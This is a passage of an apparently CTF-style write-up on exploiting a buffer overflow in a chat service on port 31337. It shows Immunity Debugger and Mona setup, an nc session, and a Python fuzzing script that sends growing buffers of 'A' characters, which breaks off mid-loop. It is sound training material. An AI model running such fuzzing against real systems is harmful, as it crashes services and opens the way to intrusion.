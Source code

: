 we have found that there is an application inside the share so let's put it inside immunity debugger to see what is this

### Exploiting the BOF

Open the application in the immunity debugger and start running it with the red run icon you will find that there is a cmd window saying **[+] Listening for connections.**

So let's connect to it and see what we will get (You can see from the scanning that there is a port wich seems to host a kind of chatting app so this will be our port that we will connect to)

```
nc (the ip of the device you have opened the app on) 31337
    Hello
    Hello Hello!!!
    Hellooooo
    Hello Hellooooo!!!
```
We will see that it is a simple application which take the thing you type and put it beside the hello from the program so let's start to check if there is any possibility for a buffer overflow here

#### Mona Configuration

Mona is a script that can be used to automate and speed up specific searches while developing exploits it works on immunity debugger, we need to Set a working folder with this command (run in the command input box at the bottom of the Immunity Debugger window)
```
!mona config -set workingfolder c:\mona\%p
```
This ensures that all Mona-generated outputs (like logs, patterns, and offsets) are saved in a dedicated directory.

#### Fuzzing

Starting by fuzzing our target using this script

```
#!/usr/bin/env python3

import socket
import time

# Set target details
ip = "192.168.1.20"  # Change this to match your target
port = 31337 

payload = "A" * 100  # Start with 100 bytes
increment = 100  # Increase size by 100 bytes each loop
timeout = 5  # Timeout for socket connection

while True:
    try:
        print(f"Fuzzing with {len(payload)} bytes")

        # Create a new socket connection for each attempt
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((ip, port))

        # Send the payload and read the response
        s.sendall(payload.encode() + b"\n")
        response = s.recv(1024).decode(errors="ignore")
        print("Server Response:", response)

        # Close the connection
        s.close()

```